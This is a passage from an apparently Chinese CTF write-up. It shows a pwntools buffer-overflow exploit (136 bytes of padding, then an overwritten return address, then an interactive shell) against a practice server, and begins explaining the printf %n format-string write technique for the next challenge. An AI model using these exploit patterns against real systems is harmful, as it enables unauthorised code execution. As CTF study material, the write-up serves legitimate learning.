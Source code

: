 ```python
from pwn import *

p = remote('node5.buuoj.cn', 26231)

payload = b'a' * (128+8)  + p64(0x0040059A)

p.sendline(payload)

p.interactive()
```





## [第五空间2019 决赛]PWN5

难度上升了，有两种思路解决



main函数里面可以看到对read等函数进行了限制：
![image-20241027151614333](../_media/image-20241027151614333.png)



这里的考点就是使用格式化输出进行溢出

这里需要前置知识点

%n：将%n之前printf已经打印的字符个数赋值给偏移处指针所指向的地址位置

例如：printf("0x44444444%2\$n")意思就是说在打印出0x4444这个字符后，将“0x44444444”所输入的字符数量（此处是4）写入到%2$n所指的地址中.
